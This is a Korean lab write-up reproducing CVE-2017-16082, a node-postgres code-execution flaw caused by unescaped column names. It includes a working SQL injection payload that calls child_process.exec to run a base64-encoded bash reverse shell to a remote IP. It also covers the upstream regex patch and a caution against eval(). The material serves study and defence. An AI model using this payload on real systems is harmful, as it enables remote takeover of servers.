

# node-postgres 임의 코드 실행 취약점（CVE-2017-16082）

**Contributors**

-   [서현규(@wh1te4ever)](https://github.com/wh1te4ever)

<br/>

## 취약점 원리

node-postgres는 PostgreSQL로부터 반환된 "Row Description" 유형의 패킷을 처리할 때 필드 이름을 코드에 연결합니다.<br/>
적절한 이스케이프(Escape) 처리가 이루어지지 않아 특수하게 구성된 필드 이름이 코드의 단일 인용부호('') 제한을 우회하여 코드 실행 취약점을 유발할 수 있습니다.

## 취약점 재현

환경 구성 및 실행:

```
docker compose build
docker compose up -d
```

성공적으로 실행된 후에는 `http://localhost:3000/?id=1`에 방문하여 id가 1인 사용자 정보를 볼 수 있습니다:



사용되는 데이터베이스는 postgres이며, sqlmap을 사용하여 여기에 삽입점이 있음을 확인할 수 있습니다:


따라서 여기에서 node-postgres의 코드 실행 취약점이 존재합니다.
<br/>
실행하려는 명령어인 `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`을 작성한 다음, 적절히 분할(각 세그먼트의 길이가 64 문자를 초과하지 않도록)해서 다음 Payload를 만듭니다:

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

위 페이로드를 URL 인코딩해서 전송합니다:：


명령이 성공적으로 실행되면 셸을 얻을 수 있습니다：


## poc.py
로컬 시스템에서 TCP 포트 21에서 수신 대기하는데, 그전에 비동기로 페이로드가 포함된 URL에 GET 요청을 날려 쉘을 가져오는 코드입니다.


## Patch
https://node-postgres.com/announcements#2017-08-12
<br/>
https://github.com/graphile/graphile-engine/pull/48
<br/>
사용자가 정의한 열 별칭이 정밀하게 만들어진 정규식과 일치하는지 확인합니다.</br>
GraphQL에서 다음과 같은 코드로 유효성 검사를 수행하도록 개선했습니다.
```
select(exprGen: SQLGen, alias: RawAlias) {
    this.checkLock("select");
    if (typeof alias === "string") {
      // To protect against vulnerabilities such as
      //
      // https://github.com/brianc/node-postgres/issues/1408
      //
      // we need to ensure column names are safe. Turns out that GraphQL
      // aliases are fairly strict (`[_A-Za-z][_0-9A-Za-z]*`) anyway:
      //
      // https://github.com/graphql/graphql-js/blob/680685dd14bd52c6475305e150e5f295ead2aa7e/src/language/lexer.js#L551-L581
      //
      // so this should not cause any issues in practice.
      if (/^[_A-Za-z][_0-9A-Za-z]*$/.test(alias) !== true) {
        throw new Error("Disallowed alias.");
      }
    }
    this.data.select.push([exprGen, alias]);
  }
```

## 요약
- 해당 취약점으로 공격자는 서버에서 임의의 코드를 실행할 수 있고 작동되고 있는 서버의 쉘을 가져올 수도 있습니다.
- [이 링크](https://github.com/brianc/node-postgres/issues/1408#issue-249850516)를 참고하면, eval() 함수를 사용하면서 사용자의 데이터를 파싱될때 발생되는 취약점이었습니다.
- eval() 함수를 사용하면 악성적인 코드를 실행할 수 있기에 사용을 자제하거나 항상 사용되기 전에 유효성 검사를 추가시킬 고려, 검토가 필요합니다.
- <b>eval() is evil...<b/>

## Reference
- https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
- https://joker-vip.github.io/2021/11/11/node-postgres%20代码执行漏洞
- https://github.com/nulldreams/CVE-2017-16082
- https://buaq.net/go-33738.html
- https://node-postgres.com/announcements#2017-08-12
- https://github.com/brianc/node-postgres/issues/1408
- https://github.com/graphile/graphile-engine/pull/48